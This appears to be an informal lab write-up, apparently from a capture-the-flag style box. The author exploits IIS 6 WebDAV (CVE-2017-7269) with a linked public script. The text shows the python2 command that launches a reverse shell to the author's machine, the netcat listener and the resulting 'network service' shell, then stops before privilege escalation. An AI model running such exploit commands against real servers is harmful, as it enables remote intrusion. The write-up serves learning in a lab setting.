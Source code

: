 https://vk9-sec.com/microsoft-iis-scstoragepathfromurl-function-buffer-overflow-cve-2017-7269/

used above POC for identified CVE

got the script from here

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell



initially it was failing 

┌──(root💀kali)-[~/Desktop/THM/iis6-exploit-2017-CVE-2017-7269]
└─# python3 iis6.py  10.10.10.14 80 10.10.16.6 4455 
  File "/root/Desktop/THM/iis6-exploit-2017-CVE-2017-7269/iis6.py", line 6
    print 'usage:iis6webdav.py targetip targetport reverseip reverseport\n'
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?



checked the error and found out that code was written for pyton2 and i was running it using python3


so changed that and started a netcat listernet on port 4455

and ran this

──(root💀kali)-[~/Desktop/THM/iis6-exploit-2017-CVE-2017-7269]
└─# python2 iis6.py  10.10.10.14 80 10.10.16.6 4455 


got a  shell


──(root💀kali)-[~]
└─# nc -lnvp 4455
listening on [any] 4455 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>



C:\Documents and Settings\All Users>whoami
whoami
nt authority\network service


Now since i am learning windows priv esc as i got went with the writeup here to see how we can manually esclate priv on windows machine


stopped here and wasted 4-5 hrs of my life to get a free course on windows priv esc fundamentals


will get it tomorrow so will continue iwht windows machine tomorrow



Okay so I am back after 1 week and 3 days
